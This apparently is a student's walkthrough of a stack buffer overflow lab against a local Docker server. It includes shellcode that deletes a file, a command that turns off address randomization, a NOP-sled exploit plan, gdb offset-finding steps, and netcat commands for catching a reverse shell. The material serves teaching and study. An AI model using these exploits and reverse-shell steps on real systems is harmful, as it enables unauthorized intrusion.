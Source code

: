 # Task 1: Get Familiar with the Shellcode

Move into the directory "shellcode", create first a file called "remove.txt", and put this content in the shellcode_32.py program for the shellcode variable:

```python
shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   "/bin/rm remove.txt                                        *
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')
```
Then, run:

```console
$ ./shellcode_32.py
$ make
$ ./a32.out
```

And you will see that the file will be removed.

# Task 2: Level-1 Attack

Make always sure that you run the following command to disable the address randomization countermeasure enable by default in every OS:

```console
$ sudo /sbin/sysctl -w kernel.randomize_va_space=0
```

Then, after building and starting all the Docker containers (as explained in the Readme.pdf file), send from the attacker machine a request to the server 10.9.0.5 at the port 9090 using netcat:

```console
$ echo hello | nc 10.9.0.5 9090
```

Substitute the values of EBP and BUF variables inside the file exploit.py in the attacker-code folder using the values returned by the target container, execute that file, open a new shell and start to listen at the port 9090 using netcat in order to reverse the shell and communicate with the server 10.9.0.5 (if running with the "-l" option, becomes a TCP server that listens for a connection on the specified port):

```console
$ nc -nv -l 9090
```

Finally, use netcat to send to the server the created badfile that will overflow the stack of the function bof used by the server, injecting a new return address that will point to the code that reverse the shell:

```console
$ cat badfile | nc 10.9.0.5 9090
```

# Task 3: Level-2 Attack

We know these facts:

- We can put the shellcode at the end of the overwritted data.

- Buffer as size between 100 and 300.

- The address of the buffer.

In order to change the execution flow of the stack program, we can overwrite all content in the positions inside Badfile between 100 and 300 with the possible shellcode address, while leave the NOP instruction in all the others positions. The new return address that points to the shellcode should be lower than the shellcode address, and bigger than the possible buffer size (maximum 300). In this way, even if the address is not exact, the NOP instructions slide the pointer until a code is found in a cell of memory, that is, our shellcode. Badfile construction is made by exploit-L2.py, the rest of the attack is conducted in the same way as in the previous task.





Create a new Makefile for the server code in which we disable all the mitigations and enable the compilation with the debugging option -g (see Makefile inside server-code-debug folder), then run:

```console
$ make
```

After that, debug the stack-L2.out and stack-L1.out binary files with -q (option that allow to read from a binary file) and execute the following commands for each of the two executables:

```console
$ gdb -q stack-L?
$ b bof
$ pattern create 2000 input
$ r < input
$ p $ebp
$ p &buffer
```

We can notice that the buffer addresses are differents among the two executables, while the ebp addresses are equal. However, even if these addresses are not the same as the real ones used by the programs running on the servers, they suggest to us that the same ebp is used always by the executables. So, just resuing the same ebp retrived in the previous task, and the buffer address returned by the target container, we can exploit another time the buffer overflow lunching a reverse shell.

Notice that the bof function inside the stack program use 3 local variables. If for example 180 bytes are used to store the buffer, 4 + 4 bytes are used for the other two local variables, so the base pointer ebp address is situated after 188 bytes from the buffer's address, specifically at distance equal to 192.

# Task 4: Level-3 Attack

